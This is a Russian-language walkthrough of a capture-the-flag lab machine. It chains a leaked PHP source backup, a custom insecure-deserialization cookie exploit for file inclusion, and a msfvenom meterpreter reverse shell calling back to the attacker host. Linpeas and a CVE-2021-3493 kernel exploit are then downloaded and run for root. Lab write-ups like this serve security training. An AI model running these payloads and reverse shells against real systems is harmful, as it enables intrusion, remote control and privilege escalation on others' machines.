# 💽 Serial_1

**Вектор:** Source Code Leaks ➔ PHP Insecure Deserialization ➔ CVE-2021-3493 (LPE)
*   **OS:** 🐧 Linux (Ubuntu)
*   **Сложность:** 🟡 Средняя
*   **Ключевые навыки:** 📊 Анализ PHP-кода, создание кастомных эксплойтов для десериализации.

## 🔍 Разведка

Пентестить будем с Kali Linux, наш ip-адрес: **10.0.2.8**. Используем гипервизор VirtualBox. И так, ищем цель в локальной сети:

```bash
arp-scan -l
```



Так как DHCP раздаёт ip-адреса по-порядку, наша цель - `10.0.2.4`.

## 👁️‍🗨️ Сканирование

Давайте просканируем все порты, применяя дефолтные скрипты:

```bash
nmap -sS -Pn -sVC -p- 10.0.2.4
```


Открыт ssh, и вполне себе корректно работает (видно публичные ключи). Сервер Apache 2.4.38 и открыт 80 порт. Посмотрим что там:



Похоже что-то будем делать с cookie. Открываем `BurpSuite` и смотрим на запрос:



Вот и cookie, давайте попробуем их декодировать:

```bash
echo "Tzo0OiJVc2VyIjoyOntzOjEwOiIAVXNlcgBuYW1lIjtzOjM6InNrNCI7czo5OiIAVXNlcgB3ZWwiO086NzoiV2VsY29tZSI6MDp7fX0" | base64 -d
```



Чуть-чуть лишнего убрали: `%3D`. Мы видим пользователя `sk4` и ещё инструкции.

### 🌐 Веб-анализ

Давайте ещё профаззим директории:

```bash
gobuster dir -u http://10.0.2.4 -w /usr/share/wordlists/dirb/common.txt
```



Ага, папка backup, нужно посмотреть, какие там файлы есть.



Можно было фаззить, но даже так получилось зайти. Тут единственный файл `bak.zip`, скачиваем его:

```bash
wget http://10.0.2.4/backup/bak.zip
```



Теперь распакуем архив:

```bash
unzip bak.zip
```



Так, у нас тут три файла и в них, как раз, исходный код.

## 💀 Эксплуатация



Вот так, кстати, опасно делать. Если мы видим, что данные из cookie, POST-запроса или URL попадают прямиком в функцию `unserialize()` — это 100% потенциальная дыра.




Проанализировав код, можно сказать: есть опасная функция `include` в свойстве `handler` класса `Log`; есть "магические методы" ("гаджеты"), которые нам помогут активировать код; Ещё можно вместо класса `Welcome()` подсунуть `Log()`, в котором уже поменяем `$type_log`. Создаём файл:

```bash
nano exp.php
```

Пишем свой код на php:

```bash
<?php
class Log {
    private $type_log = "/etc/passwd"; 
}

class User {
    private $name = "pwned";
    private $wel;

    function __construct() {
        $this->wel = new Log();
    }
}

$obj = new User();
echo base64_encode(serialize($obj));
?>
```

В конец мы добавляем строку для сериализации вредоносной cookie. Теперь запускаем:

```bash
php exp.php
```



Копируем cookie и вставляем в запрос:



Или вот так через терминал:

```bash
curl -v http://10.0.2.4/index.php --cookie "user=Tzo0OiJVc2VyIjoyOntzOjEwOiIAVXNlcgBuYW1lIjtzOjU6InB3bmVkIjtzOjk6IgBVc2VyAHdlbCI7TzozOiJMb2ciOjE6e3M6MTM6IgBMb2cAdHlwZV9sb2ciO3M6MTE6Ii9ldGMvcGFzc3dkIjt9fQ=="
```



Отлично! Мы проэксплуатировали LFI. Теперь усилим атаку: будем эксплуатировать RCE - прокинем `reverse shell`. Сначала сгенерируем его:

```bash
msfvenom -p php/meterpreter/reverse_tcp lhost=10.0.2.8 lport=4444 -f raw > reverse_shell.php
```

В `$type_log` укажем ip-адрес нашей Kali и путь до нашего `reverse shell`:



Ещё раз запускаем наш php файл для сериализации уже другой вредоносной cookie и поднимаем сервер на Kali:

```bash
php exp.php
python3 -m http.server 80
```

В *Metasploit* настраиваем слушатель:

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 10.0.2.8
set LPORT 4444
run
```



В `BurpSuite` отправляем серверу нашу cookie:



И ловим *meterpreter*:


## 🛠️ Постэксплуатация

Уходим в шелл:

```bash
shell
```

Стабилизировать шелл с помощью Python не получилось (его не было), пришлось другим способом:

```bash
/usr/bin/script -qc /bin/bash /dev/null
```

Оп! Теперь осмотримся:

```bash
cd /home
ls
id
sudo -l
uname -a
find / -perm -4000 -type f 2>/dev/null
```



### 🌋 Эскалация привелегий

Чтобы долго что-то не искать, давайте скачаем с нашей Kali `linpeas.sh` и запустим его:

```bash
cd /tmp
wget http://10.0.2.8/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```





Ага, эксплоиты ядра, хорошо, берём тот, который меньше сломает систему и компилируем его на нашей Kali:

```bash
git clone https://github.com/briskets/CVE-2021-3493.git
cd CVE-2021-3493
gcc -pthread exploit.c -o exp -static -lcrypt
```



Перекидываем и запускаем:

```bash
wget http://10.0.2.8/exp
chmod +x exp
./exp
```

Оп! Теперь идём в папочку `/root` и забираем 🚩 флаг:

```bash
cd /root
cat fl4g.txt
```


**Status:** ✅ Machine pwned.

## 📑 [Отчёт](./Report.md)